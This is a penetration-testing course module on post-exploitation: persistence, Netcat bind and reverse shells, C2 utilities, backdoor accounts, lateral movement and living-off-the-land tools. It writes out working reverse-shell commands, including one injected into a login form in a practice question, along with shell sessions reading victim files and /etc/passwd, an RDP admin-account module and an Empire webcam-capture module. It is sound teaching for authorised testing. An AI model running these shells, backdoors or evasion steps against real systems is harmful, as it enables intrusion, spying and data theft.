Performing Post-Exploitation Techniques
8.0 Introduction
8.0.1 Why Should I Take This Module?
The goal of a penetration test is to report risks of various types of cyber incidents to the customer. They will then evaluate the risks by weighing the cost of mitigating the vulnerabilities against the likelihood of attack and the potential losses that they could suffer if threat actors carry out successful exploits.
In order to enable customers to evaluate risk, sometimes it is necessary to go beyond discovering and exploiting vulnerabilities. After finding a potentially serious vulnerability that could cause considerable losses, we will get control of the subject device and see how far we can penetrate the network, and which other systems we can access. Of course, when we carry out these activities, we may have the capability of causing real damage or accessing very sensitive corporate data. We do neither.
Another thing we do is evaluate the time it takes the organization's security personnel to discover that an exploit has occurred and to detect dangerous files on compromised systems or continuing suspicious activities.
We have carried out some successful exploits in our Pixel Paradise engagement and we will now move on to creating persistent means of increasing and maintaining access and control.

During a penetration testing engagement, after you exploit a vulnerability and compromise a system, you may perform additional activities to move laterally and pivot through other processes, applications, or systems to demonstrate how they could be compromised and how information could be exfiltrated from the organization. You may also maintain persistence by creating backdoors, creating new users, scheduling jobs and tasks, and communicating with a command and control (C2) system to launch further attacks. At the end of your engagement, you should erase any evidence that you were in a compromised system by erasing logs and any other data that could allow detection. In this module, you will learn how to perform lateral movement, maintain persistence, and cover your tracks after a penetration testing engagement.
8.0.2 What Will I Learn in This Module?
Module Title: Performing Post-Exploitation Techniques
Module Objective: Explain how to perform post-exploitation activities.
| Topic Title | Topic Objective |
|---|---|
| Creating a Foothold and Maintaining Persistence After Compromising a System | Explain how to create a foothold and maintain persistence after compromising a system. |
| Understanding How to Perform Lateral Movement, Detection Avoidance, and Enumeration | Explain how to perform lateral movement, detection avoidance, and enumeration. |
8.1 Creating a Foothold and Maintaining Persistence After Compromising a System
8.1.1 Overview
Not only do attackers carry out one-time exploits. If they have good access and it appears that they can get into databases and file spaces that store sensitive content, they will stick around. They can do many things over time, if they have persistent access. It can take a long time to exfiltrate data, for example. To avoid detection, hackers may divide the files they are stealing into very small pieces and actually send them out hidden in DNS queries. Sometimes it takes months to steal the files.
There are a lot of ways to maintain a presence in a hacked network. We like to establish a persistent communication channel with at least one exploited device in order to show the customer that they are not detecting such exploits quickly enough to prevent damage.
It is important to learn about how to maintain persistent access and the kinds of things that will lead to further exploits once access has been gained.

After the exploitation phase, you need to maintain a foothold in a compromised system to perform additional tasks, such as installing and/or modifying services to connect back to the compromised system. You can maintain the persistence of a compromised system in a number of ways, including the following:
- Creating a bind or reverse shell
- Creating and manipulating scheduled jobs and tasks
- Creating custom daemons and processes
- Creating new users
- Creating additional backdoors
When you maintain persistence in a compromised system, you can take several actions, such as the following:
- Uploading additional tools
- Using local system tools
- Performing ARP scans and ping sweeps
- Conducting DNS and directory services enumeration
- Launching brute-force attacks
- Performing additional enumeration of users, groups, forests, sensitive data, and unencrypted files
- Performing system manipulation using management protocols (for example, WinRM, WMI, SMB, SNMP) and compromised credentials
- Executing additional exploits
You can also take several actions through the compromised system, including the following:
- Configuring port forwarding
- Creating SSH tunnels or proxies to communicate to the internal network
- Using a VPN to access the internal network
8.1.2 Reverse and Bind Shells
A shell is a utility (software) that acts as an interface between a user and the operating system (the kernel and its services). For example, in Linux there are several shell environments, such as Bash, ksh, and tcsh. Traditionally, in Windows the shell is the command prompt (command-line interface), which is invoked by cmd.exe. Windows PowerShell is a newer Microsoft shell that combines the old CMD functionality with a new scripting/cmdlet instruction set with built-in system administration functionality. PowerShell cmdlets allow users and administrators to automate complicated tasks with reusable scripts.
Microsoft has released a full list of and documentation for all supported Windows commands; see https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands.
Let's go over the differences between the bind and reverse shells. With a bind shell, an attacker opens a port or a listener on the compromised system and waits for a connection. This is done in order to connect to the victim from any system and execute commands and further manipulate the victim. Figure 8-1 illustrates a bind shell.

A reverse shell is a vulnerability in which an attacking system has a listener (port open), and the victim initiates a connection back to the attacking system. Figure 8-2 illustrates a reverse shell.

Many tools allow you to create bind and reverse shells from a compromised host. Some of the most popular ones are the Meterpreter module in Metasploit and Netcat. Netcat is one of the best and most versatile tools for pen testers because it is lightweight and very portable. You can even see this spelled out in the first few paragraphs of the netcat man page, as shown in Example 8-1.
Example 8-1 — The Netcat Tool
nc - TCP/IP swiss army knife
SYNOPSIS
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
DESCRIPTION
netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven by other programs and scripts. At the same time, it
is a feature-rich network debugging and exploration tool, since it can
create almost any kind of connection you would need and has several
interesting built-in capabilities. Netcat, or "nc" as the actual
program is named, should have been supplied long ago as another one
of those cryptic but standard Unix tools.
In the simplest usage, "nc host port" creates a TCP connection to the
given port on the given target host. Your standard input is then sent
to the host, and anything that comes back across the connection is
sent to your standard output. This continues indefinitely, until the
network side of the connection shuts down. Note that this behavior is
different from most other applications which shut everything down and
exit after an end-of-file on the standard input.
Netcat can also function as a server, by listening for inbound
connections on arbitrary ports and then doing the same reading and
writing. With minor limitations, netcat doesn't really care if it
runs in "client" or "server" mode -- it still shovels data back and
forth until there isn't anymore left. In either mode, shutdown can be
forced after a configurable time of inactivity on the network side.
And it can do this via UDP too, so netcat is possibly the "udp
telnet-like" application you always wanted for testing your UDP-mode
servers. UDP, as the "U" implies, gives less reliable data transmission
than TCP connections and some systems may have trouble sending large
amounts of data that way, but it's still a useful capability to have.
You may be asking "why not just use telnet to connect to arbitrary
ports?" Valid question, and here are some reasons. Telnet has the
"standard input EOF" problem, so one must introduce calculated delays
in driving scripts to allow network output to finish. This is the
main reason netcat stays running until the network side closes.
Telnet also will not transfer arbitrary binary data, because certain
characters are interpreted as telnet options and are thus removed from
the data stream. Telnet also emits some of its diagnostic messages to
standard output, where netcat keeps such things religiously separated
from its output and will never modify any of the real data in
transit unless you really want it to. And of course, telnet is
incapable of listening for inbound connections, or using UDP instead.
Netcat doesn't have any of these limitations, is much smaller and
faster than telnet, and has many other advantages.
Let's look at Netcat in action. An attacker could use the nc -lvp 1234 -e /bin/bash command in the compromised system (192.168.78.6) to create a listener on port 1234 and execute (-e) the Bash shell (/bin/bash). This is demonstrated in Example 8-2. Netcat uses standard input (stdin), standard output (stdout), and standard error (stderr) to the IP socket.
Example 8-2 — Creating a Bind Shell Using Netcat
listening on [any] 1234 ...
In Windows systems, you can execute the cmd.exe command prompt utility with the nc -lvp 1234 -e cmd.exe Netcat command.
As shown in Example 8-3, on the attacking system (192.168.78.147), the nc -nv 192.168.78.6 1234 command is used to connect to the victim. Once the attacker (192.168.78.147) connects to the victim (192.168.78.6), the ls command is invoked, and three files are shown in the attacker screen.
Example 8-3 — Connecting to the Bind Shell by Using Netcat
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
When the attacker connects, the highlighted message in Example 8-4 is displayed in the victim's system.
Example 8-4 — An Attacker Connected to a Victim Using a Bind Shell
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100
One of the challenges of using bind shells is that if the victim's system is behind a firewall, the listening port might be blocked. However, if the victim's system can initiate a connection to the attacking system on a given port, a reverse shell can be used to overcome this challenge.
Example 8-5 shows how to create a reverse shell using Netcat. In this case, in order to create a reverse shell, you can use the nc -lvp 666 command in the attacking system to listen to a specific port (port 666 in this example).
Example 8-5 — Creating a Listener in the Attacking System to Create a Reverse Shell Using Netcat
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
Then on the compromised host (the victim), you can use the nc 192.168.78.147 666 -e /bin/bash command to connect to the attacking system, as demonstrated in Example 8-6.
Example 8-6 — Connecting to the Attacking System (Reverse Shell) Using Netcat
Once the victim system (192.168.78.6) is connected to the attacking system (192.168.78.147), you can start invoking commands, as shown in the highlighted lines in Example 8-7.
Example 8-7 — Executing Commands in the Victim's System via a Reverse Shell
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<output omitted for brevity>
Table 8-2 lists several useful Netcat commands that could be used in a penetration testing engagement.

Additional Netcat commands and references for post-exploitation tools can be obtained from https://github.com/The-Art-of-Hacking/art-of-hacking.
The Meterpreter module of the Metasploit framework can also be used to create bind and reverse shells and to perform numerous other post-exploitation tasks. Table 8-3 includes some of the most common Meterpreter commands.


Metasploit Unleashed is a free detailed Metasploit course released by Offensive Security. The course can be accessed at https://www.offensive-security.com/metasploit-unleashed.

8.1.3 Practice — Reverse and Bind Shells
You have discovered a remote code execution vulnerability on what appears to be an unauthorized web server set up by a Pixel Paradise developer. You have successfully injected and executed the following code into the server login form: nc 192.168.78.145 777 -e /bin/bash. On your penetration testing VM at 192.168.78.145, you have entered the following: nc -lvp 777. What type of access have you established to the victim?
You are getting familiar with the Meterpreter module of Metasploit in order to create bind and reverse shells and perform other post-exploitation tasks on a compromised system that is on a pentesting client's network. Match the Meterpreter command to its function.
- lpwd — To display the local directory on the attacking system
- resource — To execute Meterpreter commands listed inside a text file
- execute — To run commands on the victim system
- webcam_list — To display all webcams on the victim system
- search — To locate files on the victim system
- shell — To go into a standard shell on the victim system
- getuid — To display the user logged in on the compromised system
8.1.4 Command and Control (C2) Utilities
Attackers often use command and control (often referred to as C2 or CnC) systems to send commands and instructions to compromised systems. The C2 can be the attacker's system (for example, desktop, laptop) or a dedicated virtual or physical server. A C2 creates a covert channel with the compromised system. A covert channel is an adversarial technique that allows the attacker to transfer information objects between processes or systems that, according to a security policy, are not supposed to be allowed to communicate.
Attackers often use virtual machines in a cloud service or even use other compromised systems as C2 servers. Even services such as Twitter, Dropbox, and Photobucket have been used for C2 tasks. The C2 communication can be as simple as maintaining a timed beacon, or "heartbeat," to launch additional attacks or for data exfiltration. Figure 8-3 shows how an attacker uses C2 to send instructions to two compromised systems.

Many different techniques and utilities can be used to create a C2. Select each of the following examples for more information.
socat
A C2 utility that can be used to create multiple reverse shells (see http://www.dest-unreach.org/socat)
wsc2
A Python-based C2 utility that uses WebSockets (see https://github.com/Arno0x/WSC2)
WMImplant
A PowerShell-based tool that leverages WMI to create a C2 channel (see https://github.com/ChrisTruncer/WMImplant)
DropboxC2 (DBC2)
A C2 utility that uses Dropbox (see https://github.com/Arno0x/DBC2)
TrevorC2
A Python-based C2 utility created by Dave Kennedy of TrustedSec (see https://github.com/trustedsec/trevorc2)
Twittor
A C2 utility that uses Twitter direct messages for command and control (see https://github.com/PaulSec/twittor)
DNSCat2
A DNS-based C2 utility that supports encryption and that has been used by malware, threat actors, and pen testers (see https://github.com/iagox86/dnscat2)
Figure 8-4 shows an example of how TrevorC2 can be used as a command and control framework. This figure shows two terminal windows. The terminal window on the left is the attacking system (C2 server), and the terminal window on the right is the victim (client).

A large number of open-source C2 and adversarial emulation tools are listed in The C2 Matrix, along with supported features, implant support, and other information, at https://www.thec2matrix.com.
8.1.5 Practice — Types of C2 Utilities
You are evaluating which C2 options Protego should utilize in the Pixel Perfect engagement. It is important that you have a basic understanding of each of these utilities. Match each C2 utility to its description.
- DNSCat2 — DNS-based C2 utility that supports encryption and that has been used by malware, threat actors, and pen testers
- TrevorC2 — Python-based C2 utility created by Dave Kennedy of TrustedSec
- socat — C2 utility that can be used to create multiple reverse shells
- Twittor — C2 utility that uses Twitter direct messages for command and control
- DBC2 — C2 utility that uses Dropbox
- wsc2 — Python-based C2 utility that uses WebSockets
- WMImplant — PowerShell-based tool that leverages WMI to create a C2 channel
8.1.6 Scheduled Jobs and Tasks
Windows has a command that attackers can use to schedule automated execution of tasks on a local or remote computer. You can use this functionality for post-exploitation and persistence. You can take advantage of the Windows Task Scheduler to bypass User Account Control (UAC) if the user has access to its graphical interface. This is possible because the security option runs with the system's highest privileges. When a Windows user creates a new task, the system typically doesn't require the user to authenticate with an administrator account.
You can access the scheduled tasks of a Windows system by navigating to Start → Administrative Tools → Task Scheduler. Alternatively, you can press the Windows key+R to open the Run dialog box and then type taskschd.msc and press Enter.
Scheduled tasks can also be used to steal data over time without raising alarms. In Windows, Task Scheduler can be leveraged to schedule jobs that may use a significant amount of CPU resources and network bandwidth. This is helpful when huge files are to be compressed and transferred over a network (especially if you set them to execute at night or during weekends, when no users will be on the victim's system).
8.1.7 Custom Daemons, Processes, and Additional Backdoors
Much as with scheduled tasks, you can create your own custom daemons (services) and processes on a victim system, as well as additional backdoors. Whenever possible, a backdoor must survive reboots to maintain persistence on the victim's system. You can ensure this by creating daemons that are automatically started at bootup. These daemons can persist on the system to either further compromise other systems (lateral movement) or exfiltrate data.
8.1.8 New Users
After you compromise a system, if you obtain administrator (root) access to the system, you can create additional accounts. These accounts can be used to connect to and interact with the victim system. Just as it is a best practice when configuring user accounts under normal circumstances, you (as an attacker) should create those alternate accounts with complex passwords.
8.2 Understanding How to Perform Lateral Movement, Detection Avoidance, and Enumeration
8.2.1 Overview
After we have exploited a vulnerability that has let us open up a persistent communication channel with a device on the organization's network, it is time to see what we can do. We don't want to do any real damage, obviously, but we want to confirm that the conditions exist in which we can control internal machines remotely or steal or alter stored files.
One way that we do this is to try to move laterally from host to host on the network. This lets us look at each device individually. You'd be surprised at what we can find!
Moving from host to host is not enough. We also need to gain privileges on the host to carry out further exploits. While we can enumerate passwords in Windows shares fairly easily, there are other techniques that we sometimes need to employ to gain full access to a system. Once there, we can demonstrate how threat actors could perform discrete data exfiltration and extend their access to other systems. When our engagement with the customer is over, we write a report regarding our findings, and sometimes we show security personnel where we have been and what we have done with demonstration videos. Very persuasive!
Lateral movement (also referred to as pivoting) is a post-exploitation technique that can be performed using many different methods. The main goal of lateral movement is to move from one device to another to avoid detection, steal sensitive data, and maintain access to the devices to exfiltrate the sensitive data, which is data whose theft would have a severe impact to an organization. Such data typically should not be broadly shared internally or externally. Access to sensitive data should be limited and tightly controlled. Data exfiltration is the act of deliberately moving sensitive data from inside an organization to outside an organization's perimeter without permission. In this section, you will learn the most common techniques for lateral movement.
Pass-the-hash is an example of a post-exploitation technique that can be used to move laterally and compromise other systems in the network. Because password hashes cannot be reversed, instead of trying to figure out what the user's password is, an attacker can just use a password hash collected from a compromised system and then use the same hash to log in to another client or server system. Module 5, "Exploiting Wired and Wireless Networks," covers pass-the-hash in more detail.
8.2.2 Post-Exploitation Scanning
Lateral movement involves scanning a network for other systems, exploiting vulnerabilities in other systems, compromising credentials, and collecting sensitive information for exfiltration. Lateral movement is possible if an organization does not segment its network properly. Network segmentation is therefore very important.
Testing the effectiveness of your network segmentation strategy is very important. Your organization might have deployed virtual or physical firewalls, virtual local area networks (VLANs), or access control policies for segmentation, or it might use microsegmentation in virtualized and containerized environments. You should perform network segmentation testing often to verify that your segmentation strategy is appropriate to protect your network against lateral movement and other post-exploitation attacks.
After compromising a system, you can use basic port scans to identify systems or services of interest that you can further attack in an attempt to compromise valuable information (see Figure 8-5).
In Module 3, "Information Gathering and Vulnerability Identification," you learned about scanning tools that are used for active reconnaissance. You can use some of the same tools (such as Nmap) to perform scanning after exploitation, and you may also want to create your own. Alternatively, there are many tools, such as Metasploit, that have built-in scanning capabilities for post-exploitation (via Meterpreter).
An attacker needs to avoid raising alarms at this stage. If security defenders detect that there is a threat on the network, they will thoroughly sweep through it and thwart any progress that you have made. In some pen testing cases, you might start very stealthily and gradually increase the amount of traffic and automated tools used in order to also test the effectiveness of the security defenders (including the security operations center [SOC]).

You can scan for SMB shares that you may be able to log in to with compromised credentials or that the logged-in user of the compromised system may have access to. You can move files to or from other systems. Alternatively, you can instantiate an SMB share (via Samba or similar mechanisms) and copy files from a compromised system.
You can use remote access protocols, including the following, to communicate with a compromised system:
- Microsoft's Remote Desktop Protocol (RDP)
- Apple Remote Desktop
- VNC
- X server forwarding
Example 8-8 shows an example of using Metasploit to create an RDP connection. This Metasploit module enables RDP and provides options to create an account and configure it to be a member of the Local Administrators and Remote Desktop Users group. This module can also be used to forward the target's TCP port 3389.
Example 8-8 — Using the Metasploit RDP Post-Exploitation Module
msf post(windows/manage/enable_rdp) > show options
Module options (post/windows/manage/enable_rdp):
Name Current Setting Required Description
---- --------------- -------- -----------
ENABLE true no Enable the RDP Service and
Firewall Exception.
FORWARD false no Forward remote port 3389 to local
Port.
LPORT 3389 no Local port to forward remote
connection.
PASSWORD no Password for the user created.
SESSION yes The session to run this module
on.
USERNAME no The username of the user to
create.
meterpreter > run
Remote Desktop's main advantage over other tools, like Sysinternals, is that it gives you a full, interactive graphical user interface (GUI) of the remote compromised computer. From the remote connection, it is possible to steal data or collect screenshots, disable security software, or install malware. Remote Desktop connections are fully encrypted, and monitoring systems cannot see what you are doing in the remote system. The main disadvantage of Remote Desktop is that a user working on the compromised remote system may be able to detect that you are logged on to the system. A common practice is to use Remote Desktop when no users are on the compromised system or when compromising a server.
8.2.3 Legitimate Utilities and Living-off-the-Land
Many different legitimate Windows legitimate utilities, such as PowerShell, Windows Management Instrumentation (WMI), and Sysinternals, can be used for post-exploitation activities, as described in the following sections. Similarly, you can use legitimate tools and installed applications in Linux and macOS systems to perform post-exploitation activities. If a compromised system has Python installed, for example, you can use it for additional exploitation and exfiltration. Similarly, you can use the Bash shell and tools like Netcat post-exploitation.
Using legitimate tools to perform post-exploitation activities is often referred to as living-off-the-land and, in some cases, as fileless malware. The term fileless malware refers to the idea that there is no need to install any additional software or binaries to the compromised system. Examples of living-off-the-land post-exploitation techniques include the following:
- PowerShell for Post-Exploitation Tasks
- PowerSploit and Empire
- BloodHound
- Windows Management Instrumentation for Post-Exploitation Tasks
- Sysinternals and PsExec
- Windows Remote Management (WinRM) for Post-Exploitation Tasks
PowerShell for Post-Exploitation Tasks
You can use PowerShell to get directory listings, copy and move files, get a list of running processes, and perform administrative tasks. Table 8-4 lists and describes some of the most useful PowerShell commands that can be used for post-exploitation tasks.


The following PowerShell command can be used to avoid detection by security products and antivirus software:
This command directly loads a PS1 file from the Internet instead of downloading it and then executes it on the device.
Remote management in Windows via PowerShell (often called PowerShell [PS] remoting) is a basic feature that a system administrator can use to access and manage a system remotely. An attacker could also take advantage of this feature to perform post-exploitation activities.
For details on how to enable PowerShell remoting, see https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting.
PowerSploit and Empire
PowerSploit is a collection of PowerShell modules that can be used for post-exploitation and other phases of an assessment. Table 8-5 lists the most popular PowerSploit modules and scripts. Refer to https://github.com/PowerShellMafia/PowerSploit for a complete and up-to-date list of scripts.




When you use PowerSploit, you typically expose the scripts launching a web service. Figure 8-6 shows Kali Linux is being used, with PowerSploit scripts located in /usr/share/windows-resources/powersploit. A simple web service is started using the command sudo python3 -m http.server 1337 (where 1337 is the port number). The compromised system then connects to the attacker's machine (Kali) on port 1337 and downloads a PowerSploit script for data exfiltration.

Another PowerShell-based post-exploitation framework is Empire, which is an open-source framework that includes a PowerShell Windows agent and a Python Linux agent. Empire implements the ability to run PowerShell agents without the need for powershell.exe. It allows you to rapidly deploy post-exploitation modules including keyloggers, bind shells, reverse shells, Mimikatz, and adaptable communications to evade detection. You can download Empire from https://github.com/EmpireProject/Empire.
Example 8-9 shows one of the modules of Empire (a macOS X webcam snapshot). This module takes a picture by using the webcam of a compromised macOS X system.
Example 8-9 — The Empire Post-Exploitation Tool
(Empire: python/collection/osx/webcam) > info
Name: Webcam
Module: python/collection/osx/webcam
NeedsAdmin: False
OpsecSafe: False
Language: python
MinLanguageVersion: 2.6
Background: False
OutputExtension: png
Authors:
@harmj0y
Description:
Takes a picture of a person through OSX's webcam with an
ImageSnap binary.
Comments:
http://iharder.sourceforge.net/current/macosx/imagesnap/
Options:
Name Required Value Description
---- -------- ------- -----------
TempDir True /tmp/ Temporary directory to drop the
ImageSnap binary and picture.
Agent True Agent to execute module on.
(Empire: python/collection/osx/webcam) >
BloodHound
You can use a single-page JavaScript web application called BloodHound that uses graph theory to reveal the hidden relationships in a Windows Active Directory environment. An attacker can use BloodHound to identify numerous attack paths. Similarly, incident response teams can use BloodHound to detect and eliminate those same attack paths. You can download BloodHound from the following GitHub repository: https://github.com/BloodHoundAD/Bloodhound.
You can also use BloodHound to find complex attack paths in Microsoft Azure.
Windows Management Instrumentation for Post-Exploitation Tasks
